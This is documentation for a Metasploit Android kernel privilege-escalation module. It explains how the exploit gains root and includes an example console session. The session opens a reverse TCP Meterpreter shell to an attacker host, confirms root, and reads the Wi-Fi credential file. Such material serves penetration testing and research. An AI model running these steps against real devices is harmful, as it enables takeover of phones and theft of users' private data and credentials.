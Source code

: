 ## Intro

This modules exploits a vulnerability in the linux kernel on an Android device, which allows an untrusted app to elevate to root priviledges. On Android an application normally runs as an individual linux user, sandboxing it from the Android system and other applications. After running the exploit the resulting session has full priviledge on the device, and can access the entire filesystem and the private data files of every other app, including system apps.

The exploit uses a read kernel memory primitive to first figure out the correct offsets for the device, before using the write primitive to overwrite the ptmx.fsync handler to a function that will elevate the current process to root. Finally /dev/ptmx is opened, and fsync called to trigger the exploit.

## Usage

You'll first need to obtain a session on the target device. Once the module is loaded, one simply needs to set the ```SESSION``` option and configure the handler. The exploit can take a while to run on the device so it is configured with ```WfsDelay``` option to wait 120 seconds for a session. If you have not had a session after this time you can assume the device is not vulnerable.

An example session follows:


```
msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                        Information          Connection
  --  ----                        -----------          ----------
  1   meterpreter dalvik/android  u0_a132 @ localhost  192.168.1.52:4444 -> 192.168.1.54:33549 (192.168.1.54)


msf exploit(handler) > use exploit/android/local/put_user_vroot

msf exploit(put_user_vroot) > set LHOST 192.168.1.52
LHOST => 192.168.1.52

msf exploit(put_user_vroot) > set LPORT 5555
LPORT => 5555

msf exploit(put_user_vroot) > set SESSION 1
SESSION => 1

msf exploit(put_user_vroot) > run

[*] Started reverse TCP handler on 192.168.1.52:5555 
[*] Loading exploit library /data/data/com.metasploit.stage/files/bwycy
[*] Loaded library /data/data/com.metasploit.stage/files/bwycy, deleting
[*] Waiting 120 seconds for payload
[*] Sending stage (388156 bytes) to 192.168.1.54
[*] Meterpreter session 2 opened (192.168.1.52:5555 -> 192.168.1.54:59580) at 2016-12-24 00:19:12 +0800


meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0

meterpreter > cat /data/misc/wifi/wpa_supplicant.conf
ctrl_interface=wlan0
...

```
